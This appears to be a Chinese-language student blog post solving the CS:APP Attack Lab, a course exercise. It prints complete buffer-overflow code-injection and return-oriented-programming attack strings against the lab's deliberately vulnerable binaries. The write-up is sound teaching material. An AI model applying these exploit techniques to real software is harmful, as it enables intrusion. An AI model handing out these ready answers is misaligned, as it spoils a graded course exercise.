







> 大家期待的是前锋敦也的力量，而不是后卫士郎的力量，该怎么办呢？

在日本动漫《闪电十一人》中，雷门中学的足球队前锋受到了外星人的威胁而离开了球队，为了打败外星人，圆堂一行人前往了寻找前锋的道路，他们找到了吹雪士郎，“永恒暴风雪”-- 极强的射门技能带给了大家无限的希望，然而事实上，吹雪士郎也越来越迷失了自我。因为他只是一个防守型的后卫，之所以在进攻端展现出爆炸的天赋是因为他有双重人格，另一半是他进攻性极强的弟弟。哥哥跟弟弟从小在一块踢球，哥哥是后卫，弟弟是前锋，两人合作赢得了许多足球比赛，然而一场意外 --- 雪崩，带走了爸爸妈妈和弟弟一家人的生命，只留下了哥哥，从此哥哥心中便产生了弟弟的人格。起初并没有什么大碍，然而雷门足球队依赖的是弟弟的进攻，于是哥哥越来越怀疑自己，直到后来彻底崩溃了。


如果说拆除炸弹是一项艰巨的防守任务的话，那么毫无疑问，本次实验是一次进攻任务。

<!--more-->
## 前言
在进行本次实验之前，需要仔细阅读 [实验讲义 Writeup](http://csapp.cs.cmu.edu/3e/attacklab.pdf)，它会给予我们许多帮助。

与上一个实验一样，我们可以先使用 `objdump` 查看汇编代码。
``` sh
objdump -d ctarget > ctarget.asm
objdump -d rtarget > rtarget.asm
```

讲义中给出了本次攻击实验的关键函数。
``` C
unsigned getbuf()
{
    char buf[BUFFER_SIZE];
    Gets(buf);
    return 1;
}
```
`getbuf` 函数首先定义了局部变量 `buf`，然后调用 `Gets` 函数，从标准输入中读取字符至 `buf` 中，由于没有对长度进行严格的检查，读取的字符数可能会超过 `BUFFER_SIZE`，从而破坏了 `getbuf` 函数甚至函数之外的栈帧结构。

## Part 1: 代码注入攻击
代码注入攻击就是通过读取超过 `BUFFER_SIZE` 长度的字符对函数栈帧的返回地址进行了修改，从而使得 `ret` 指令没有正常的返回，而使 `IP` 指向了未知的地方，执行了未知的指令。
### Level 1
`Level 1` 不需要我们注入攻击代码，只需要我们执行程序本身自带的函数 `touch1` 即可。

下面是调用 `getbuf` 和 `touch1` 的代码。
``` C
void test()
{
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```
``` C
void touch1()
{
    vlevel = 1; /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

看看 `getbuf` 的汇编代码：
``` asm
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	ret    
  4017be:	90                   	nop
  4017bf:	90                   	nop
```
栈指针减 `0x28`，然后栈 rsp 赋值给 rdi，rdi 作为参数调用 `Gets`，所以 `getbuf` 中 `BUFFER_SIZE` 应该就是 `0x28`，大于 `0x28` 的 8 个字节作为返回地址，所以将 `0x28` 后面的 8 个字节更改为 `touch1` 的函数入口地址即可。前面的 `0x28` 个字节可以是任意字符，这里就全设为 00 即可。
``` txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```
最后一个字节就是入口地址(小端序)。将这段序列写入文件 `1-1.txt` 中，使用 `hex2raw` 程序帮助我们生成字符串。
> ./hex2raw -i 1-1.txt | ./ctarget -q



### Level 2
这次需要我们跳转到 `touch2` 中：
``` C
void touch2(unsigned val) {
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```
需要使 `val == cookie` 才可以攻击成功，其中 `cookie` 在文件 `cookie.txt` 中。`touch2` 的第一个参数存放在 `rdi` 中，我们需要将 `rdi` 的值设为 `cookie.txt` 中的值，然后再通过 `ret` 指令进入 `touch2`。`touch2` 的入口地址为 `0x4017ec`。

``` asm
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	ret    
  4017be:	90                   	nop
  4017bf:	90                   	nop
```
使用 `gdb` 查看一下 `rsp` 寄存器的内容，在 `0x4017ac` 打上断点：



首先写出攻击的汇编代码，然后用 `gcc -c` 看下二进制代码：
``` asm
movq $0x59b997fa,%rdi # 0x59b997fa 是 cookie.txt 中的值
movq $0x5561dc98,%rsp # 0x5561dc98 存放着 touch2 的入口地址
ret
```

最后得出我们的攻击字符串为：
``` txt
48 c7 c7 fa 97 b9 59 48
c7 c4 98 dc 61 55 c3 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ec 17 40 00 00 00 00 00
78 dc 61 55 00 00 00 00
```
这段字符串会被写入到 `rsp` 指向的栈中。

`getbuf` 函数 `ret` 时，`IP` 指向第一行，这是指令，首先将 `rdi` 修改为 `cookie`，然后将 `rsp` 修改为第五行的地址，再 `ret`，`IP` 指向就会指向 `touch2` 的入口地址，攻击成功。



### Level 3
这次需要我们跳转到 `touch3`。
``` C
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval) {
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval) {
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```
`sval` 字符串的内容应该是 `cookie.txt` 的内容，所以我们需要将字符串放入栈中，然后让 `rdi` 指向字符串首地址。

``` asm
00000000004018fa <touch3>:
  4018fa:	53                   	push   %rbx
  .
  .
  .
  401911:	e8 36 ff ff ff       	callq  40184c <hexmatch>
```
``` asm
000000000040184c <hexmatch>:
  40184c:	41 54                	push   %r12
  40184e:	55                   	push   %rbp
  40184f:	53                   	push   %rbx
```
因为 `rdi` 指向栈中字符串的位置，然而 `touch3` 和 `hexmatch` 都对栈进行了 `push` 操作，为了不让这两个函数对栈中字符串进行修改，必须让字符串的地址比栈指针高。

攻击字符串为：(写入文本中时记得把注释给去掉)
``` txt
48 c7 c7 90 dc 61 55 48 
c7 c4 88 dc 61 55 c3 00 # mov $0x5561dc90,%rdi mov $0x5561dc88,%rsp ret
fa 18 40 00 00 00 00 00 # touch3 地址
35 39 62 39 39 37 66 61 # 目标字符串的 ASCII
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 # 注入指令首地址
```


## Part 2: 面向返回编程攻击

在这一部分中需要使用另一种攻击方式重新解决 Level 2 和 Level 3，这是因为使用第一种攻击方式已经无效了：
> 1. 使用随机化，每次运行时的堆栈位置不同，所以无法确定攻击代码的位置
> 2. 堆栈不可执行，执行堆栈中的指令会报 Segmentation Fault

所以现在我们需要利用栈中本来存放的指令。举个例子：
``` C
void setval_210(unsigned *p)
{
    *p = 3347663060U;
}
```
``` asm
0000000000400f15 <setval_210>:
400f15: c7 07 d4 48 89 c7 movl $0xc78948d4,(%rdi)
400f1b: c3 retq
```
`48 89 c7` 又可以表示 `movq %rax, %rdi`，`c3` 表示 `ret`，以 `c3` 为结尾的指令被称为 `gadget`，程序中为我们定义了一系列的 `gadget`，叫做 `gadget_farm`，存在于 `start_farm` 与 `end_farm` 之间，我们只能通过这里面的指令来实现我们的攻击。

``` asm
0000000000401994 <start_farm>:
  401994:	b8 01 00 00 00       	mov    $0x1,%eax
  401999:	c3                   	ret    

000000000040199a <getval_142>:
  40199a:	b8 fb 78 90 90       	mov    $0x909078fb,%eax
  40199f:	c3                   	ret    

00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	ret    

00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	ret    

00000000004019ae <setval_237>:
  4019ae:	c7 07 48 89 c7 c7    	movl   $0xc7c78948,(%rdi)
  4019b4:	c3                   	ret    

00000000004019b5 <setval_424>:
  4019b5:	c7 07 54 c2 58 92    	movl   $0x9258c254,(%rdi)
  4019bb:	c3                   	ret    

00000000004019bc <setval_470>:
  4019bc:	c7 07 63 48 8d c7    	movl   $0xc78d4863,(%rdi)
  4019c2:	c3                   	ret    

00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	ret    

00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	ret    

00000000004019d0 <mid_farm>:
  4019d0:	b8 01 00 00 00       	mov    $0x1,%eax
  4019d5:	c3                   	ret    

00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	ret    

00000000004019db <getval_481>:
  4019db:	b8 5c 89 c2 90       	mov    $0x90c2895c,%eax
  4019e0:	c3                   	ret    

00000000004019e1 <setval_296>:
  4019e1:	c7 07 99 d1 90 90    	movl   $0x9090d199,(%rdi)
  4019e7:	c3                   	ret    

00000000004019e8 <addval_113>:
  4019e8:	8d 87 89 ce 78 c9    	lea    -0x36873177(%rdi),%eax
  4019ee:	c3                   	ret    

00000000004019ef <addval_490>:
  4019ef:	8d 87 8d d1 20 db    	lea    -0x24df2e73(%rdi),%eax
  4019f5:	c3                   	ret    

00000000004019f6 <getval_226>:
  4019f6:	b8 89 d1 48 c0       	mov    $0xc048d189,%eax
  4019fb:	c3                   	ret    

00000000004019fc <setval_384>:
  4019fc:	c7 07 81 d1 84 c0    	movl   $0xc084d181,(%rdi)
  401a02:	c3                   	ret    

0000000000401a03 <addval_190>:
  401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
  401a09:	c3                   	ret    

0000000000401a0a <setval_276>:
  401a0a:	c7 07 88 c2 08 c9    	movl   $0xc908c288,(%rdi)
  401a10:	c3                   	ret    

0000000000401a11 <addval_436>:
  401a11:	8d 87 89 ce 90 90    	lea    -0x6f6f3177(%rdi),%eax
  401a17:	c3                   	ret    

0000000000401a18 <getval_345>:
  401a18:	b8 48 89 e0 c1       	mov    $0xc1e08948,%eax
  401a1d:	c3                   	ret    

0000000000401a1e <addval_479>:
  401a1e:	8d 87 89 c2 00 c9    	lea    -0x36ff3d77(%rdi),%eax
  401a24:	c3                   	ret    

0000000000401a25 <addval_187>:
  401a25:	8d 87 89 ce 38 c0    	lea    -0x3fc73177(%rdi),%eax
  401a2b:	c3                   	ret    

0000000000401a2c <setval_248>:
  401a2c:	c7 07 81 ce 08 db    	movl   $0xdb08ce81,(%rdi)
  401a32:	c3                   	ret    

0000000000401a33 <getval_159>:
  401a33:	b8 89 d1 38 c9       	mov    $0xc938d189,%eax
  401a38:	c3                   	ret    

0000000000401a39 <addval_110>:
  401a39:	8d 87 c8 89 e0 c3    	lea    -0x3c1f7638(%rdi),%eax
  401a3f:	c3                   	ret    

0000000000401a40 <addval_487>:
  401a40:	8d 87 89 c2 84 c0    	lea    -0x3f7b3d77(%rdi),%eax
  401a46:	c3                   	ret    

0000000000401a47 <addval_201>:
  401a47:	8d 87 48 89 e0 c7    	lea    -0x381f76b8(%rdi),%eax
  401a4d:	c3                   	ret    

0000000000401a4e <getval_272>:
  401a4e:	b8 99 d1 08 d2       	mov    $0xd208d199,%eax
  401a53:	c3                   	ret    

0000000000401a54 <getval_155>:
  401a54:	b8 89 c2 c4 c9       	mov    $0xc9c4c289,%eax
  401a59:	c3                   	ret    

0000000000401a5a <setval_299>:
  401a5a:	c7 07 48 89 e0 91    	movl   $0x91e08948,(%rdi)
  401a60:	c3                   	ret    

0000000000401a61 <addval_404>:
  401a61:	8d 87 89 ce 92 c3    	lea    -0x3c6d3177(%rdi),%eax
  401a67:	c3                   	ret    

0000000000401a68 <getval_311>:
  401a68:	b8 89 d1 08 db       	mov    $0xdb08d189,%eax
  401a6d:	c3                   	ret    

0000000000401a6e <setval_167>:
  401a6e:	c7 07 89 d1 91 c3    	movl   $0xc391d189,(%rdi)
  401a74:	c3                   	ret    

0000000000401a75 <setval_328>:
  401a75:	c7 07 81 c2 38 d2    	movl   $0xd238c281,(%rdi)
  401a7b:	c3                   	ret    

0000000000401a7c <setval_450>:
  401a7c:	c7 07 09 ce 08 c9    	movl   $0xc908ce09,(%rdi)
  401a82:	c3                   	ret    

0000000000401a83 <addval_358>:
  401a83:	8d 87 08 89 e0 90    	lea    -0x6f1f76f8(%rdi),%eax
  401a89:	c3                   	ret    

0000000000401a8a <addval_124>:
  401a8a:	8d 87 89 c2 c7 3c    	lea    0x3cc7c289(%rdi),%eax
  401a90:	c3                   	ret    

0000000000401a91 <getval_169>:
  401a91:	b8 88 ce 20 c0       	mov    $0xc020ce88,%eax
  401a96:	c3                   	ret    

0000000000401a97 <setval_181>:
  401a97:	c7 07 48 89 e0 c2    	movl   $0xc2e08948,(%rdi)
  401a9d:	c3                   	ret    

0000000000401a9e <addval_184>:
  401a9e:	8d 87 89 c2 60 d2    	lea    -0x2d9f3d77(%rdi),%eax
  401aa4:	c3                   	ret    

0000000000401aa5 <getval_472>:
  401aa5:	b8 8d ce 20 d2       	mov    $0xd220ce8d,%eax
  401aaa:	c3                   	ret    

0000000000401aab <setval_350>:
  401aab:	c7 07 48 89 e0 90    	movl   $0x90e08948,(%rdi)
  401ab1:	c3                   	ret    

0000000000401ab2 <end_farm>:
  401ab2:	b8 01 00 00 00       	mov    $0x1,%eax
  401ab7:	c3                   	ret    
  401ab8:	90                   	nop
  401ab9:	90                   	nop
  401aba:	90                   	nop
  401abb:	90                   	nop
  401abc:	90                   	nop
  401abd:	90                   	nop
  401abe:	90                   	nop
  401abf:	90                   	nop
```


### Level 2
Level 2 需要我们设置 `rdi` 寄存器内容为 `cookie`，然后跳转至 `touch2`。因为没有办法直接 mov 给 rdi，所以我们想到通过 pop 指令从栈中弹出字符串给 `rdi` 寄存器：
``` asm
00000000004019a7 <addval_219>: 
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq  
```
58 90 c3 对应了这样的三个指令：
``` asm
popq %rax
nop
ret
```
所以接下来就需要：
``` asm
mov %rax, %rdi
```
``` asm
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	ret    
```
48 89 c7 c3 对应了指令。

所以我们的攻击字符串为：
``` txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00 # popq %rax
fa 97 b9 59 00 00 00 00 # cookie
a2 19 40 00 00 00 00 00 # mov %rax, %rdi
ec 17 40 00 00 00 00 00 # 返回到 touch2
```


### Level 3
我们需要将 `rdi` 指向指向 `cookie` 字符串首地址，然后调用 `touch3`。

同样，字符串存放在栈中，那么怎么获取字符串的首地址呢？

我们发现有这样一个函数：
``` asm
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	ret  
```
作用是将 `rdi` + `rsi` 后赋值给 `rax`，所以我们用 `rdi` 保存 `rsp` 位置，然后用 `rsi` 保存偏移量，计算完成后 `rax` 保存着字符串首地址，最后再 `mov %rax, %rdi` 就行了。

所以我们的攻击字符串为：
``` txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00 # popq %rax
20 00 00 00 00 00 00 00 # 偏移量
42 1a 40 00 00 00 00 00 # movl %eax,%edx
69 1a 40 00 00 00 00 00 # movl %edx,%ecx
27 1a 40 00 00 00 00 00 # movl %ecx,%esi
06 1a 40 00 00 00 00 00 # movq %rsp,%rax
c5 19 40 00 00 00 00 00 # movq %rax,%rdi
d6 19 40 00 00 00 00 00 # add_xy
c5 19 40 00 00 00 00 00 # movq %rax,%rdi
fa 18 40 00 00 00 00 00 # touch3地址
35 39 62 39 39 37 66 61 # 目标字符串
00 00 00 00 00 00 00 00 
```
指令的地址就不一一列出了，可以去 `rtarget.asm` 中寻找。中间因为很多指令没有办法一步到位，只能通过多次转移，需要有耐心的去寻找。


## 实验总结
通过本次实验让我对函数的栈有了更清晰的理解，之前一直对函数栈懵懵懂懂的。与此同时，也了解了当代码写的有问题时会带来什么危害，我们应当尽力的避免这种情况的发生。当然，攻击有趣，但也不要做出危害他人，危害社会的事情。共勉！